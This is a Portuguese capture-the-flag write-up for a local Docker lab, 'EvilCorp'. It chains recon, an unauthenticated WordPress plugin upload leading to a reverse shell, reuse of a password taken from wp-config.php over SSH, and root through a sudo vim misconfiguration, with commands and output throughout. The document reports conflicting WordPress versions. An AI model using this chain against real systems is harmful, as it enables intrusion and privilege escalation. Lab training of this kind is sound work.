

EvilCorp CTF
[!info] Resolução do CTF EvilCorp elaborado por Roger Ribeiro — 2026-06-28

Configuração do Ambiente
O ambiente roda localmente via Docker. A imagem está publicada no Docker Hub e é baixada automaticamente.
Requisitos: Docker Engine ≥ 20.x · Docker Compose ≥ 2.x
# Baixar a imagem
docker pull pandadub/evilcorp-ctf:1.0
# Subir o ambiente (download automático na primeira execução)
docker compose up -d
# Acompanhar a inicialização (aguardar "[+] Iniciando servicos...")
docker compose logs -f webO ambiente cria a rede 172.20.0.0/24 com dois containers:
| Container | IP | Serviços |
|---|---|---|
evilcorp_db |
172.20.0.10 | MySQL 8.0 (acesso interno) |
evilcorp_web |
172.20.0.20 | HTTPS (443), HTTP (80), SSH (22) |
TARGET_IP: 172.20.0.20 · Atacante: 172.20.0.1 (gateway da rede Docker)
O servidor usa HTTPS com certificado autoassinado — use -k no curl ou aceite o aviso no browser:
# Verificar acesso
curl -sk https://172.20.0.20 -o /dev/null -w "%{http_code}"
# Instalar certificado (opcional — Arch/Manjaro)
docker cp evilcorp_web:/etc/ssl/certs/evilcorp.crt /tmp/evilcorp.crt
sudo cp /tmp/evilcorp.crt /etc/ca-certificates/trust-source/anchors/evilcorp.crt
sudo update-ca-trustPara parar o ambiente:
docker compose down # para os containers (preserva banco)
docker compose down -v # reset completo (apaga banco de dados)Target Info
| Campo | Valor |
|---|---|
| IP | 172.20.0.20 |
| Hostname | acmecorp.local (DNS) / evilcorp.local (SSL CN) |
| SO | Ubuntu 22.04.5 LTS |
| Plataforma | Docker (ambiente local) |
| Dificuldade | Médio |
Cadeia: Unrestricted File Upload (CWE-434) → Password Reuse (CWE-521) → sudo misconfiguration vim (CWE-269)
1. Reconhecimento
1.1 Host Discovery
nmap -sn 172.20.0.0/24
Starting Nmap 7.99 at 2026-06-28 12:36 -0300
Nmap scan report for 172.20.0.1
Host is up (0.00014s latency).
Nmap scan report for 172.20.0.10
Host is up (0.000010s latency).
Nmap scan report for acmecorp.local (172.20.0.20)
Host is up (0.000092s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.61 secondsTrês hosts: gateway (.1), banco de dados interno (.10), servidor web (.20).
1.2 Port Scan
nmap -sC -sV -p- --min-rate 5000 172.20.0.20
Starting Nmap 7.99 at 2026-06-28 12:36 -0300
Nmap scan report for acmecorp.local (172.20.0.20)
Not shown: 65532 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
| /wp-admin/ /wp-content/plugins/evilcorp-newsletter/
|_/evil-internal/ /wp-content/uploads/
|_http-title: EvilCorp — Portal Interno
|_http-generator: WordPress 7.0
443/tcp open ssl/http Apache httpd 2.4.52 ((Ubuntu))
| ssl-cert: Subject: commonName=evilcorp.local/organizationName=EvilCorp Industries
| Not valid before: 2026-06-27T21:38:58
|_Not valid after: 2027-06-27T21:38:58
|_http-generator: WordPress 7.0O nmap já extrai as 4 entradas do robots.txt automaticamente. SSL CN é evilcorp.local.
1.3 Enumeração de Diretórios (Gobuster)
gobuster dir -u https://172.20.0.20 \
-w ~/Estudo/Offensive\ Security/Utilities/Wordlists/directory-list-2.3-medium.txt \
-x php,html,txt -k -r --exclude-length 34632wp-content (Status: 200) [Size: 0]
wp-login.php (Status: 200) [Size: 4661]
license.txt (Status: 200) [Size: 19903]
readme.html (Status: 200) [Size: 7406]
robots.txt (Status: 200) [Size: 216]
wp-trackback.php (Status: 200) [Size: 135]O --exclude-length 34632 filtra o redirect 301 do WordPress para falsos positivos.
1.4 Análise do robots.txt
curl -k https://172.20.0.20/robots.txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
# Caminhos internos — acesso restrito
Disallow: /wp-content/plugins/evilcorp-newsletter/
Disallow: /evil-internal/
Disallow: /wp-content/uploads/O robots.txt expõe o plugin interno evilcorp-newsletter. Acesso direto ao diretório retorna 403, mas há um endpoint de upload.

1.5 Enumeração do WordPress (wpscan)
wpscan --url https://172.20.0.20 --enumerate u,ap --disable-tls-checks[+] WordPress version 6.4.3 identified
[+] Users found:
eviladmin
[+] Plugins found:
evilcorp-newsletter 1.0 (no known CVEs)Plugin sem CVEs conhecidos, mas a existência de um endpoint de upload merece inspeção direta.
2. Exploração
2.1 Descoberta do Endpoint Vulnerável
curl -k https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/upload.phpRetorna um formulário HTML de upload sem autenticação. O código-fonte do endpoint contém:
// TODO: Implementar verificacao de sessao WordPress
// Ticket #INT-4892 - ABERTO
// Responsavel: jessica@evilcorp.localVulnerabilidade CWE-434 confirmada. A responsável jessica será relevante na próxima fase.
2.2 Upload do Reverse Shell
# IP do atacante na rede Docker
ip addr show | grep 172.20
# inet 172.20.0.1/24
# Listener (terminal separado)
nc -lvnp 4444
# Upload da shell
curl -k -F "template=@shell.php" \
https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/upload.php{"status":"success",
"url":"\/wp-content\/plugins\/evilcorp-newsletter\/uploads\/shell.php"}# Acionar o reverse shell
curl -k https://172.20.0.20/wp-content/plugins/evilcorp-newsletter/uploads/shell.php2.3 Shell Recebida
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.20.0.20 42670
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html/wp-content/plugins/evilcorp-newsletter/uploadsShell como www-data. Estabilizar:
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm3. Movimentação Lateral
3.1 Extração de Credenciais (wp-config.php)
cat /var/www/html/wp-config.php | grep -E "DB_USER|DB_PASSWORD"
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'Ev1lC0rp2024!' );
//
// Credenciais de BD -- mesma senha usada por jessica
// (it-support@evilcorp.local)3.2 Enumeração de Usuários do Sistema
cat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
jessica:x:1000:1000::/home/jessica:/bin/bashApenas dois usuários com shell interativa: root e jessica.
3.3 Acesso SSH
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null jessica@172.20.0.20
# Senha: Ev1lC0rp2024!=====================================================
EvilCorp Industries — Secure Shell
Unauthorized access is a criminal offense.
All sessions are recorded and monitored.
IT Department: it-support@evilcorp.local
=====================================================
jessica@cefc4a4dc0b8:~$3.4 User Flag
jessica@cefc4a4dc0b8:~$ cat user.txt
EVIL{j3ss1c4_4cc3ss_gr4nt3d_w3lc0m3_t0_3v1lc0rp}4. Escalada de Privilégios
4.1 Enumeração de Privilégios (sudo -l)
jessica@cefc4a4dc0b8:~$ sudo -l
User jessica may run the following commands on evilcorp:
(root) NOPASSWD: /usr/bin/vimjessica executa vim como root sem senha — vetor clássico GTFOBins (CWE-269).
4.2 Exploração via vim (GTFOBins)
jessica@cefc4a4dc0b8:~$ sudo vim -c ':!/bin/bash'
root@cefc4a4dc0b8:/home/jessica# id
uid=0(root) gid=0(root) groups=0(root)4.3 Root Flag
root@cefc4a4dc0b8:/home/jessica# cat /root/root.txt
EVIL{r00t_0wn3d_3v1lc0rp_m1ss10n_c0mpl3t3_g00d_j0b}5. Conclusão
A cadeia partiu do robots.txt que expôs o plugin evilcorp-newsletter, cujo endpoint de upload desprotegido (CWE-434) permitiu RCE como www-data. O wp-config.php revelou a senha Ev1lC0rp2024!, reutilizada por jessica no SSH (CWE-521). A misconfiguration do sudo com vim permitiu escalar para root via GTFOBins (CWE-269).
Flags: EVIL{j3ss1c4_...} (user) · EVIL{r00t_0wn3d_...} (root)